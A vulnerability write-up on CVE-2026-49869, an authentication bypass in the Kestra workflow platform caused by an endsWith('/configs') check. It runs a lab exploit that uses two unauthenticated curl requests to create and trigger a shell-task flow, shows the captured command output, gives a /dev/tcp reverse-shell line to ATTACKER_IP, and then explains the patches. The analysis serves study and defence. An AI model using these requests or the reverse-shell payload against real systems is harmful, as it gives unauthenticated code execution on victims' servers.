




I've been trawling September 2026's CVE crop for interesting targets, and [CVE-2026-49869](https://nvd.nist.gov/vuln/detail/CVE-2026-49869) in Kestra immediately stood out. CVSS 10.0, CISA KEV listed, actively exploited in the wild — and the root cause is almost comically simple. A single `endsWith()` call where an `equals()` should have been.

But the simplicity of the bug is exactly what makes it worth studying. This is the kind of vulnerability that slips past code review because it *looks* reasonable at first glance. Let's tear it apart.

---

## What is Kestra?

[Kestra](https://github.com/kestra-io/kestra) is an open-source workflow orchestration platform — think Apache Airflow, but built for a different audience. Where Airflow assumes you'll define DAGs in Python code, Kestra leans hard into a visual UI and YAML-defined workflows. You drag-and-drop tasks in a browser, wire them together, and the backend schedules and executes them.

Under the hood, it's a Java application built on the [Micronaut framework](https://micronaut.io/) — a JVM-native, reflection-free framework designed for microservices. The architecture matters because understanding how Micronaut handles HTTP filters and request routing is central to why this bug exists and why the fix was harder than it looks.

### Architecture

Kestra's deployment model follows a multi-component architecture, though most self-hosted setups run everything in a single process:

```text title="architecture"
┌───────────────────────────────────────────────────────────┐
│                       Kestra Server                       │
│                                                           │
│  ┌───────────────┐  ┌───────────────┐  ┌───────────────┐  │
│  │   Webserver   │  │    Executor   │  │     Worker    │  │
│  │  (Micronaut)  │  │ (Flow Engine) │  │ (Task Runner) │  │
│  │               │  │               │  │               │  │
│  │ REST API      │  │ DAG resolver  │  │ Shell/Python  │  │
│  │ UI serving    │  │ State machine │  │ Docker exec   │  │
│  │ Auth filter   │  │ Trigger mgmt  │  │ Script exec   │  │
│  └───────┬───────┘  └───────┬───────┘  └───────┬───────┘  │
│          │                  │                  │          │
│          └──────────────────┼──────────────────┘          │
│                             │                             │
│                    ┌────────┴───────┐                     │
│                    │    Storage     │                     │
│                    │   (Internal)   │                     │
│                    │  H2/Postgres   │                     │
│                    │   + Local FS   │                     │
│                    └────────────────┘                     │
└───────────────────────────────────────────────────────────┘
```

In production, these components can be split across nodes: webservers behind a load balancer, executors managing flow state, workers executing tasks on separate machines. But the default Docker image (`kestra/kestra`) runs everything in one JVM with `server local` — web server, executor, scheduler, and worker all sharing the same process.

### The REST API

The webserver exposes a REST API at `/api/v1/` that controls everything:

- **Flows** (`/api/v1/flows/`) — CRUD for workflow definitions (YAML-based)
- **Executions** (`/api/v1/executions/`) — trigger, monitor, and kill workflow runs
- **Namespaces** (`/api/v1/namespaces/`) — organize flows + manage secrets and KV storage
- **Templates** (`/api/v1/templates/`) — reusable task definitions
- **Plugins** (`/api/v1/plugins/`) — installed task plugins

Routes follow the pattern `/api/v1/{tenant}/{resource}/{namespace}/{id}`. Kestra has a component called `TenantAliasingRooter` that handles multi-tenancy: if you omit the tenant, it rewrites the path to include the default tenant `main`. So `/api/v1/flows/myns` becomes `/api/v1/main/flows/myns` internally.

### Authentication in the OSS edition

This is where things get relevant. Kestra's open-source edition has exactly one authentication mechanism: **a single HTTP server filter that checks Basic Auth credentials**.

```java
@Filter("/api/v1/**")
public class AuthenticationFilter implements HttpServerFilter {
    // This is the entire security boundary.
    // There is no RBAC, no OAuth, no token scoping.
    // If you bypass this filter, you are god.
}
```

No role-based access control. No per-resource authorization. No scope limitation on API tokens. The filter is registered as a Micronaut `HttpServerFilter` on the Ant pattern `/api/v1/**`, and it's the **only thing** standing between an anonymous attacker and full admin control. Bypass it, and you own the instance.

### Why "own the instance" means RCE

Kestra ships with script execution plugins enabled by default — Shell, Python, Node.js. When you create a flow with a shell task and trigger it, the worker literally runs:

```bash
/bin/sh -c "set -e\nyour command here"
```

The worker process runs with real OS privileges. In the default Docker image, that's `uid=1000(kestra)`. But in production deployments where people need Docker-in-Docker for container-based task runners (a common pattern), workers often run as **root**.

So the attack chain is: bypass the auth filter → create a flow with a shell command → trigger it → command execution on the worker. Whether that's `uid=1000` or `root` depends on how the target deployed Kestra, but either way, it's game over.

---

## The vulnerable code

Here's `AuthenticationFilter.java` from [Kestra v1.3.20](https://github.com/kestra-io/kestra/blob/v1.3.20/webserver/src/main/java/io/kestra/webserver/filter/AuthenticationFilter.java) — the last vulnerable release:

```java
@Filter("/api/v1/**")
public class AuthenticationFilter implements HttpServerFilter {

    @Override
    public Publisher<MutableHttpResponse<?>> doFilter(
            HttpRequest<?> request, ServerFilterChain chain) {

        return Mono.fromCallable(() -> basicAuthService.configuration())
            .subscribeOn(Schedulers.boundedElastic())
            .flux()
            .flatMap(basicAuthConfiguration -> {

                boolean isConfigEndpoint = request.getPath().endsWith("/configs")
                    || ((request.getPath().endsWith("/basicAuth")
                         || request.getPath().endsWith("/basicAuthValidationErrors"))
                        && !basicAuthService.isBasicAuthInitialized());

                boolean isOpenUrl = Optional.ofNullable(
                        basicAuthConfiguration.openUrls())
                    .map(Collection::stream)
                    .map(stream -> stream.anyMatch(
                        s -> request.getPath().startsWith(s)))
                    .orElse(false);

                if (isConfigEndpoint || isOpenUrl
                        || isManagementEndpoint(request)) {
                    return chain.proceed(request); // Skip auth entirely
                }

                // ... credential verification follows ...
            });
    }
}
```

See the problem?

```java
boolean isConfigEndpoint = request.getPath().endsWith("/configs")
```

The intent is straightforward: there's a public endpoint at `/api/v1/configs` that the login page needs to fetch instance configuration without being authenticated. So the developer whitelisted it. But instead of checking `"/api/v1/configs".equals(path)`, they used `path.endsWith("/configs")`.

That single decision means **any** API path whose last segment is the string `configs` gets treated as the public config endpoint. And in Kestra's REST API, the last segment is frequently user-controlled — namespace names and flow IDs are part of the URL path.

### How Micronaut processes this

To understand why this is worse than it looks, you need to know how Micronaut's filter chain works.

Micronaut evaluates `@Filter("/api/v1/**")` against the raw request path using Ant-style pattern matching. The `**` glob matches any number of path segments. So every request to `/api/v1/anything/at/all` hits this filter. Inside the filter, the developer's code runs before any controller method is invoked.

The reactive chain (`Mono.fromCallable → flux → flatMap`) means the filter executes asynchronously on Micronaut's bounded elastic scheduler. When the `isConfigEndpoint` or `isOpenUrl` condition is true, the filter calls `chain.proceed(request)` — which skips credential verification entirely and passes the request straight to the matched controller.

Here's the decision flow:



The critical insight: `endsWith("/configs")` is a **suffix match on the entire path**, not a check against a specific endpoint. Any path where the namespace or resource ID happens to be `configs` satisfies the condition.

---

## Mapping the attack surface

With the `TenantAliasingRooter` rewriting tenant-less paths, I can construct API paths that end in `/configs` while targeting completely different controllers:

| Endpoint | Path | Ends in `/configs`? | Auth bypassed? |
|----------|------|:-:|:-:|
| Flow import | `POST /api/v1/flows/configs` | Yes | Yes |
| Trigger execution | `POST /api/v1/executions/configs/configs` | Yes | Yes |
| Read flows | `GET /api/v1/main/flows/configs` | Yes | Yes |
| Namespace secrets | `GET /api/v1/main/namespaces/configs/secrets` | No | No |
| Config endpoint (intended) | `GET /api/v1/configs` | Yes | Yes (intended) |

The flow import and execution trigger are the critical pair. Together they give us: create a flow containing a shell command → trigger it → RCE. Two requests, zero credentials.

---

## Setting up the lab

I pulled the vulnerable Docker image and started it with Basic Auth enabled:

```bash
docker run -d --name kestra-vuln -p 9090:8080 \
  -e KESTRA_CONFIGURATION='kestra:
  server:
    basic-auth:
      enabled: true
      username: "admin@kestra.io"
      password: "Admin1234!"' \
  kestra/kestra:v1.3.20 server local
```

Wait about 30 seconds for the JVM to initialize and the web server to bind. You'll know it's ready when:

```bash
curl -s http://localhost:9090/api/v1/configs | jq .version
# "1.3.20"
```

---

## Exploitation — step by step

### Step 1: Confirming auth is enforced

First — verify the auth filter is actually doing its job on normal endpoints:

```http
GET /api/v1/main/flows HTTP/1.1
Host: localhost:9090
```

```http
HTTP/1.1 401 Unauthorized
WWW-Authenticate: Basic
content-length: 0
```

Good. Without credentials, protected endpoints return 401. The filter works — for paths that don't end in `configs`.

### Step 2: Information leakage from the config endpoint

Even before exploiting the bypass, the `/api/v1/configs` endpoint — the one the filter is trying to whitelist — returns more than a login page needs:

```json
{
  "uuid": "3F9cCNIismi9TWzOMntjk6",
  "version": "1.3.20",
  "edition": "OSS",
  "commitId": "945f162",
  "commitDate": "2026-05-26T15:02:38Z",
  "isBasicAuthInitialized": true,
  "isAiEnabled": true,
  "isAiApiKeyConfigured": false,
  "pluginsHash": 201580262
}
```

Instance UUID, exact version string, git commit hash, feature flags, whether AI integration is configured — plenty for fingerprinting. But this is the appetizer.

### Step 3: Creating a malicious flow — no credentials needed

The flow import endpoint accepts YAML at `POST /api/v1/flows/{namespace}`. I craft a flow with namespace `configs` (so the path ends in `/configs`) containing a shell task:

```bash
curl -X POST http://localhost:9090/api/v1/flows/configs \
  -H 'Content-Type: application/x-yaml' \
  -d '
id: configs
namespace: configs
tasks:
  - id: rce
    type: io.kestra.plugin.scripts.shell.Commands
    taskRunner:
      type: io.kestra.plugin.core.runner.Process
    commands:
      - "id && whoami && hostname"
'
```

```http
HTTP/1.1 200 OK
content-type: application/json
```

```json
[
  {
    "id": "configs",
    "namespace": "configs",
    "revision": 1,
    "disabled": false,
    "tasks": [
      {
        "id": "rce",
        "type": "io.kestra.plugin.scripts.shell.Commands",
        "taskRunner": {
          "type": "io.kestra.plugin.core.runner.Process"
        },
        "commands": "[\"id && whoami && hostname\"]"
      }
    ]
  }
]
```

No `Authorization` header. No cookie. The filter saw the path `/api/v1/flows/configs`, checked `endsWith("/configs")` → `true`, and let the request through to `FlowController`. The flow was created successfully.

### Step 4: Triggering execution — also no credentials

The execution trigger endpoint is `POST /api/v1/executions/{namespace}/{flowId}`. With both set to `configs`, the path is `/api/v1/executions/configs/configs` — ends in `/configs`, bypass again:

```bash
curl -X POST http://localhost:9090/api/v1/executions/configs/configs
```

```json
{
  "id": "sBhEobzkTZHeEgTkbBmaa",
  "namespace": "configs",
  "flowId": "configs",
  "state": {
    "current": "CREATED",
    "histories": [
      {
        "state": "CREATED",
        "date": "2026-09-30T13:47:16.933444593Z"
      }
    ]
  }
}
```

Execution created in `CREATED` state. The worker picks it up and runs the shell command within milliseconds.

### Step 5: Confirming command execution

The execution logs (fetched with auth for this capture — an attacker would already have a reverse shell and wouldn't need this step):

```json
[
  {
    "taskId": "rce",
    "timestamp": "2026-09-30T13:32:07.645694Z",
    "level": "DEBUG",
    "message": "Starting command with pid 140 [/bin/sh -c set -e\nid && whoami && hostname]"
  },
  {
    "taskId": "rce",
    "timestamp": "2026-09-30T13:32:07.651904Z",
    "level": "INFO",
    "message": "uid=1000(kestra) gid=1000(kestra) groups=1000(kestra)"
  },
  {
    "taskId": "rce",
    "timestamp": "2026-09-30T13:32:07.652942Z",
    "level": "INFO",
    "message": "kestra"
  },
  {
    "taskId": "rce",
    "timestamp": "2026-09-30T13:32:07.653156Z",
    "level": "INFO",
    "message": "aba02c40c7a4"
  },
  {
    "taskId": "rce",
    "timestamp": "2026-09-30T13:32:07.653388Z",
    "level": "DEBUG",
    "message": "Command succeed with exit code 0"
  }
]
```

There it is:

- `uid=1000(kestra) gid=1000(kestra)` — running as the kestra user
- `kestra` — whoami
- `aba02c40c7a4` — the container hostname

That's unauthenticated remote code execution. Two HTTP requests, zero credentials, full shell access on the worker. For a reverse shell, swap the command for:

```yaml
commands:
  - "bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'"
```

According to [Microsoft's threat intelligence](https://thehackernews.com/2026/09/cisa-adds-seven-exploited-flaws-as.html), attackers in the wild were using this to deploy crypto miners and harvest cloud secrets from container environments. CISA added it to the [Known Exploited Vulnerabilities catalog](https://www.cisa.gov/news-events/alerts/2026/09/02/cisa-adds-seven-known-exploited-vulnerabilities-catalog) on September 2, 2026.

---

## The complete exploit chain



---

## The fix — and two more bypasses they found along the way

The initial fix landed in commit [`28ff533`](https://github.com/kestra-io/kestra/commit/28ff533d85e6c977e209f90e87e8523d0f8888eb) on May 27, 2026, shipping in v1.3.21. But the story doesn't end there — the fix process uncovered two more authentication bypass variants in the same filter.

### Fix #1: Suffix matching → exact equality

The core fix replaces `endsWith` with exact string comparison and adds path normalization:

```java
// BEFORE (vulnerable):
boolean isConfigEndpoint = request.getPath().endsWith("/configs")

// AFTER (fixed):
String normalizedPath = normalizePath(request.getPath());
boolean isConfigEndpoint = "/api/v1/configs".equals(normalizedPath)
    || ((normalizedPath.matches("/api/v1(/[^/]+)?/basicAuth")
         || "/api/v1/basicAuthValidationErrors".equals(normalizedPath))
        && !basicAuthService.isBasicAuthInitialized());
```

The `normalizePath` function collapses double slashes so tricks like `/api/v1//configs` don't work:

```java
private static String normalizePath(String path) {
    return path.replaceAll("/+", "/");
}
```

This fixes the original CVE. But the code review that followed the fix uncovered two more problems.

### Fix #2: Encoded separator evasion (GHSA-rjhm-qm6w-m7x9)

This one's more subtle, and it requires understanding how Micronaut handles URL-encoded paths.

The filter is registered on `@Filter("/api/v1/**")`. Micronaut matches this Ant pattern against the **raw, percent-encoded** request target. So a request to `/api/v1%2Fsecrets` has only two path segments from Micronaut's perspective (`api` and `v1%2Fsecrets`), which doesn't match the three-segment minimum of `/api/v1/**`. The filter never runs.

But downstream, `TenantAliasingRooter` decoded the same path, saw `/api/v1/secrets`, rewrote it to `/api/v1/main/secrets`, and dispatched it to `SecretController` — completely unauthenticated. A classic check-vs-use inconsistency between URL decoding layers.



The fix in commit [`b11e599`](https://github.com/kestra-io/kestra/commit/b11e599949ae05322fb8d42eb1ce3bd3a8fb09d6) changes the filter registration to `@Filter(Filter.MATCH_ALL_PATTERN)` — matching every request — and adds internal gating that checks both the raw and decoded paths:

```java
@Filter(Filter.MATCH_ALL_PATTERN)  // was: @Filter("/api/v1/**")
public class AuthenticationFilter implements HttpServerFilter {

    @Override
    public Publisher<MutableHttpResponse<?>> doFilter(
            HttpRequest<?> request, ServerFilterChain chain) {

        String rawPath = request.getPath();
        boolean rawLooksLikeApi = rawPath.startsWith(API_PREFIX);

        // Fast path: skip non-API requests with no encoding tricks
        if (!rawLooksLikeApi
                && rawPath.indexOf('%') < 0
                && !rawPath.contains("//")) {
            return chain.proceed(request);
        }

        // Decode, normalize, then check again
        String normalizedPath = normalizePath(
            request.getUri().getPath());
        if (!rawLooksLikeApi
                && !normalizedPath.startsWith(API_PREFIX)) {
            return chain.proceed(request);
        }

        // ... auth checks on normalizedPath ...
    }
}
```

### Fix #3: Open-URL prefix collision (GHSA-j5cv-8rw9-vv2p)

Kestra's config lists "open URLs" that bypass auth — specifically webhook endpoints:

```yaml
open-urls:
  - "/api/v1/executions/webhook/"
  - "/api/v1/main/executions/webhook/"
  - "/api/v1/*/executions/webhook/"
```

The filter used `request.getPath().startsWith(s)` to check these. The problem: a namespace literally named `webhook` makes the execution trigger path (`/api/v1/main/executions/webhook/someFlowId`) match the webhook prefix. Any flow in a namespace called `webhook` could be created and triggered without authentication.

The fix in commit [`0c48f96`](https://github.com/kestra-io/kestra/commit/0c48f9691aa7583dd8c8a1325aaf1abdd993a04d) introduces an `@AnonymousAccess` annotation. The `isOpenUrl` check now requires **both** a URL prefix match **and** that the resolved Micronaut route handler carries `@AnonymousAccess`:

```java
// BEFORE (vulnerable):
boolean isOpenUrl = Optional.ofNullable(basicAuthConfiguration.openUrls())
    .map(Collection::stream)
    .map(stream -> stream.anyMatch(
        s -> request.getPath().startsWith(s)))
    .orElse(false);

// AFTER (fixed):
boolean isOpenUrl = isAnonymousRoute(request)
    && Optional.ofNullable(basicAuthConfiguration.openUrls())
        .map(Collection::stream)
        .map(stream -> stream.anyMatch(normalizedPath::startsWith))
        .orElse(false);
```

Defense in depth: a URL prefix alone is no longer sufficient — the route handler must explicitly opt in. All three fixes shipped together in v1.3.38.

---

## Vulnerable vs fixed — the full picture



---

## What makes this interesting

The bug itself is trivial — `endsWith` vs `equals`. But there are a few things worth reflecting on:

**The filter is the entire security model.** In Kestra OSS, there's no RBAC, no per-resource authorization, no scope limitation. The auth filter is the only gate. If you're past it, you have full admin access — flows, secrets, executions, namespace files, everything. This is an architecture problem, not just a code bug. A defense-in-depth approach (per-endpoint authorization, least-privilege task runners, sandboxed script execution) would have contained the impact even with the filter bypass.

**The bug sat in the codebase for a long time.** Looking at the git history, `endsWith("/configs")` has been there since the authentication filter was first introduced. Nobody caught it in review because it *looks* right — `/configs` is a specific endpoint, and the check is "does the path go to that endpoint?" The developer's mental model was correct; the code just didn't express it accurately.

**The fix found two more bugs.** The process of fixing CVE-2026-49869 led the maintainers to scrutinize the filter more carefully, which uncovered the encoded-separator and open-URL prefix bypasses. This is a common pattern — the first bug is the canary that reveals a class of issues. It's also why bypass hunting on freshly-patched code is so productive.

**Active exploitation was fast.** The fix shipped in late May, but CISA flagged active exploitation by early September. The gap between "fix available" and "all instances patched" is where attackers live. And since Kestra's deployment model is self-hosted Docker containers, there's no centralized update mechanism — every deployment has to manually pull the new image.

---

## Reproduction environment

```bash
# Vulnerable version
docker pull kestra/kestra:v1.3.20

# Fixed version (for comparison)
docker pull kestra/kestra:v1.3.38
```

The public PoC by [EQSTLab](https://github.com/EQSTLab/CVE-2026-49869) includes a Dockerfile and Python exploit script. There's also a [Nuclei template](https://github.com/projectdiscovery/nuclei-templates/pull/17175) for detection.

---

## References

- [GHSA-5vc5-wxxq-3fjx](https://github.com/kestra-io/kestra/security/advisories/GHSA-5vc5-wxxq-3fjx) — Original auth bypass advisory
- [GHSA-rjhm-qm6w-m7x9](https://github.com/kestra-io/kestra/security/advisories/GHSA-rjhm-qm6w-m7x9) — Encoded separator bypass
- [GHSA-j5cv-8rw9-vv2p](https://github.com/kestra-io/kestra/security/advisories/GHSA-j5cv-8rw9-vv2p) — Open-URL prefix bypass
- [CVE-2026-49869 on NVD](https://nvd.nist.gov/vuln/detail/CVE-2026-49869)
- [CISA KEV entry](https://www.cisa.gov/news-events/alerts/2026/09/02/cisa-adds-seven-known-exploited-vulnerabilities-catalog)
- [EQSTLab PoC](https://github.com/EQSTLab/CVE-2026-49869)
- Fix commits: [`28ff533`](https://github.com/kestra-io/kestra/commit/28ff533d85e6c977e209f90e87e8523d0f8888eb), [`b11e599`](https://github.com/kestra-io/kestra/commit/b11e599949ae05322fb8d42eb1ce3bd3a8fb09d6), [`0c48f96`](https://github.com/kestra-io/kestra/commit/0c48f9691aa7583dd8c8a1325aaf1abdd993a04d)
